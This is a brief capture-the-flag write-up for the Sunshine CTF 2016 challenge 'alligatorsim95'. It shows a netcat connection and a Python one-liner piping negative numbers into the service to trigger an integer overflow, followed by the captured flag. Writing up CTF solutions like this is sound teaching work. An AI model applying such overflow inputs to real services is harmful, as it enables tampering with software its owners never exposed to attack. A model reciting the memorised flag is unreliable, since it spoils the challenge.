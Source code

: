 ```yaml
---
title:   "Write-up - Sunshine CTF 2016 - alligatorsim95"
date:    2016-03-14 00:00:00
tags:    [Write-up, Sunshine CTF 2016]
summary: "Write-up about Sunshine CTF 2016 - alligatorsim95"
---
```


In this challenge, we need to connect to a server through Netcat. Let is do it with `nc 4.31.182.242 9000`. A message appears.

```


              .-._   _ _ _ _ _ _ _ _
   .-''-.__.-'00  '-' ' ' ' ' ' ' ' '-.
  '.___ '    .   .--_'-' '-' '-' _'-' '._
   V: V 'vv-'   '_   '.       .'  _..' '.'.
     '=.____.=_.--'   :_.__.__:_   '.   : :
             (((____.-'        '-.  /   : :
   snd                         (((-' .' /
                             _____..'  .'
                            '-._____.-'
  -> welcome to alligatorsim95!

-> u r... AN ALLIGATOR!!
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got 1337 eggz in ur nest, how many you gonna lay alligator?? ~~ producing eggz ~~
```

After digging we can see that the program can accept any values, especially negative values. This is surely a way to perform [integer overflows](https://en.wikipedia.org/wiki/Integer_overflow). By a simple command in Python we can find the flag: `python -c "print -1337; print -0xffffffff; print -1" | nc 4.31.182.242 9000`. We will have the following message:

```
              .-._   _ _ _ _ _ _ _ _
   .-''-.__.-'00  '-' ' ' ' ' ' ' ' '-.
  '.___ '    .   .--_'-' '-' '-' _'-' '._
   V: V 'vv-'   '_   '.       .'  _..' '.'.
     '=.____.=_.--'   :_.__.__:_   '.   : :
             (((____.-'        '-.  /   : :
   snd                         (((-' .' /
                             _____..'  .'
                            '-._____.-'
  -> welcome to alligatorsim95!

-> u r... AN ALLIGATOR!!
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got 1337 eggz in ur nest, how many you gonna lay alligator?? ~~ producing eggz ~~
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got 0 eggz in ur nest, how many you gonna lay alligator?? ~~ producing eggz ~~
.. simulating alligator lifecycle ..
.. simulating alligator throwing physics..
-> you got -2147483648 eggz in ur nest, how many you gonna lay alligator?? ~~ producing eggz ~~
-> dang 2147483647 is a lotta eggs
-> as a god among gators here is ur crown:
sun{int_0verflow_i5_a_g0od_st4rt}
```

The flag is `sun{int_0verflow_i5_a_g0od_st4rt}`.
